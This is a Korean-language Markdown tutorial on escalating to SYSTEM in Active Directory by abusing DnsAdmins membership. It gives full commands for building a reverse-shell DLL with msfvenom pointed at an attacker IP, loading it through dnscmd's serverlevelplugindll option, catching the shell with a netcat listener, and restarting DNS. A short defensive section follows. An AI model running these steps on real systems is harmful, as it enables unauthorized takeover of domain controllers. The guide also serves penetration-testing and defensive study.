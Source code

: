 

# DnsAdmins 그룹을 이용한 권한 상승 가이드

Active Directory 환경에서 `DnsAdmins` 그룹의 구성원은 DNS 서버에 대한 관리 권한을 가집니다. 이 권한은 DNS 서비스가 시작될 때 임의의 DLL 파일을 로드하도록 설정하는 데 악용될 수 있으며, DNS 서비스는 `NT AUTHORITY\SYSTEM` 권한으로 실행되므로 이는 곧바로 시스템 전체의 권한 상승으로 이어집니다.

> **핵심:** `DnsAdmins` 그룹의 멤버십은 사실상 도메인 관리자(Domain Admin)와 동일한 수준의 권한으로 간주해야 합니다.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `DnsAdmins` 그룹의 멤버인지 확인합니다.

```powershell(title="사용자 그룹 멤버십 확인")
whoami /groups
```

- **확인 사항:** 출력된 목록에서 `DnsAdmins` 그룹이 포함되어 있는지 확인합니다.

---

### **2. 공격 원리: 악성 DLL 로딩**

`DnsAdmins` 그룹 멤버는 `dnscmd.exe` 유틸리티를 사용하여 DNS 서버의 설정을 변경할 수 있습니다. 이 중 `/config /serverlevelplugindll` 옵션은 DNS 서비스가 로드할 커스텀 DLL의 경로를 지정하는 기능입니다. 공격자는 이 기능을 악용하여 리버스 셸 코드가 포함된 악성 DLL을 등록하고, 서비스 재시작을 통해 `SYSTEM` 권한으로 코드를 실행합니다.

---

### **3. 단계별 공격 절차**

#### **1단계: 악성 DLL 생성**
- `msfvenom`을 사용하여 리버스 셸을 실행하는 악성 DLL 파일을 생성합니다.

```bash(title="공격자: msfvenom으로 악성 DLL 생성")
# -p: 페이로드 지정
# -f: 출력 포맷 (dll)
# LHOST, LPORT: 리스너 IP 및 포트
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f dll -o revshell.dll
```

#### **2단계: DLL 업로드**
- 생성된 `revshell.dll` 파일을 DNS 서버(보통 도메인 컨트롤러)의 파일 시스템에 업로드합니다. `C:\Temp`와 같이 누구나 접근 가능한 경로를 사용하는 것이 일반적입니다.

#### **3. DNS 서비스 설정 변경**
- `dnscmd.exe`를 사용하여 DNS 서비스가 우리가 업로드한 악성 DLL을 로드하도록 설정합니다.

```powershell(title="타겟: 악성 DLL 로드 설정")
# <DC_Name>: DNS 서버의 호스트명 (예: DC01.corp.local) 없어도 될 듯
# /config /serverlevelplugindll: 로드할 DLL 경로 지정
dnscmd.exe <DC_Name> /config /serverlevelplugindll "C:\Temp\revshell.dll"
```

#### **4. 리스너 실행 및 서비스 재시작**
- 공격자 머신에서 Netcat 리스너를 실행하고, 타겟 서버의 DNS 서비스를 재시작하여 DLL이 로드되도록 합니다.

```bash(title="공격자: Netcat 리스너")
rlwrap nc -lvnp 443
```

```powershell(title="타겟: DNS 서비스 재시작")
sc stop dns
sc start dns
```

#### **5. 권한 상승 성공**
- DNS 서비스가 재시작되면서 `revshell.dll`을 로드하고, 공격자의 리스너에 `NT AUTHORITY\SYSTEM` 권한의 셸이 연결됩니다.

---

### **4. 방어 (Mitigation)**

- **멤버십 최소화:** `DnsAdmins` 그룹에는 반드시 필요한 최소한의 관리자 계정만 포함시켜야 합니다.
- **모니터링:** DNS 서버 설정 변경, 특히 `ServerLevelPluginDll` 레지스트리 키(`HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters\`)에 대한 변경 사항을 모니터링합니다.

